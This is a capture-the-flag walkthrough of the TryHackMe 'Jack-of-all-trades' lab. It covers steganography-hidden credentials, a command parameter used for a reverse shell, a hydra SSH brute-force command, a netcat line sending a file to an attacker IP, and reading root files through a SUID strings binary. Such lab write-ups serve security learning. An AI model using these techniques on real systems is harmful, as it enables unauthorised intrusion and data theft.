









Hello everyone,

Today we are going to solve Jack-of-all-trades machine from tryhackme. we will learn about how to open restricted port on browser,some stegnography and how to do privesc with strings SUID.


<!--truncate-->

## Nmap results

```bash
PORT   STATE SERVICE VERSION
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Jack-of-all-trades!
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey:
|   1024 13:b7:f0:a1:14:e2:d3:25:40:ff:4b:94:60:c5:00:3d (DSA)
|   2048 91:0c:d6:43:d9:40:c3:88:b1:be:35:0b:bc:b9:90:88 (RSA)
|   256 a3:fb:09:fb:50:80:71:8f:93:1f:8d:43:97:1e:dc:ab (ECDSA)
|_  256 65:21:e7:4e:7c:5a:e7:bc:c6:ff:68:ca:f1:cb:75:e3 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

--> If you are facing the problem with firefox about restricted port so here is the quick guide to help you :

1.open a new tab and search for `about:config`
2.Then you will see one search bar. Type `network.security.ports.banned.override` and if it appears then double click on it and add the port which you want to allow(in our case 22)
3.If it doesn't appear then make one new by clicking on `+` icon and select type as integer and add `22` in it and save it and you are good to go!

After configuration it will look like this !



--> Now we can goto that port and i found this page there !



## Gobuster results

```bash
===============================================================
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/assets               (Status: 301) [Size: 318] [--> http://10.10.223.122:22/assets/]
/index.html           (Status: 200) [Size: 1605]
/server-status        (Status: 403) [Size: 278]
===============================================================
```

## Enumration

--> Found this in the comment of the page on port `22`

```bash
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq
```

Possible name : `Johny`
also got one password : `u?WtKSraq`

--> Also got this in comment :

```bash
Note to self - If I ever get locked out I can get back in at /recovery.php
```

--> Got this page in `/recovery.php`



--> Also in comment i found this string:



```bash
Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```

--> The link redirects us to the wikipedia page for `Stegosauria` so here we have to do some stegnography.

--> I went to `/assets` and found 3 images: `header.jpg`,`stego.jpg` and `jackinthebox.jpg`. So let's do stego on them one by one!

--> Found the creds from `header.jpg` by stego using `u?WtKSraq` as password !

```bash
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: TplFxiSHjY
```

--> Found this in `stego.jpg` using same password as `header.jpg`

```bash
Hehe. Gotcha!

You're on the right path, but wrong image!
```

But we already found username and password so let's try to login on `/recovery.php`

--> And boom it worked!

And i found the page which says this :

```bash
GET me a 'cmd' and I'll run it for you Future-Jack.
```

--> So i tried `cmd` as parameter and it worked ! So i tried to get the reverse shell with that parameter and i got the shell as `www-data`



--> In `/home` directory i found one file called `jacks_password_list` so it might be a ssh passwords of jack so i grabbed them and ran hydra

```bash
hydra -l jack -P jacks_password_list.txt ssh://<ip>:80 -t 10
```

--> Found jack's password !



`jack:ITMJpGGIqg1jn?>@`

--> But we don't have user flag here! instead we have one image so let's transfer this using netcat into our machine !

```bash
#Victim machine
nc <attacker_ip> <port> < user.jpg

#Attacker machine
nc -lp <port> > user.jpg
```

--> After opening the image i found the flag !



## Privesc

--> I done `sudo -l` but found nothing so i tried to find the `SUID` files with this command :

```bash
find / -perm -u=s -type f 2>/dev/null
```

--> And i found some files in which `/usr/bin/strings` looks interesting !



--> So i searched on gtfobins and i found that we can read any file with strings so let's read `/root/root.txt` with it !

```bash
LFILE=/root/root.txt
/usr/bin/strings "$LFILE"
```

--> And i found the root flag!


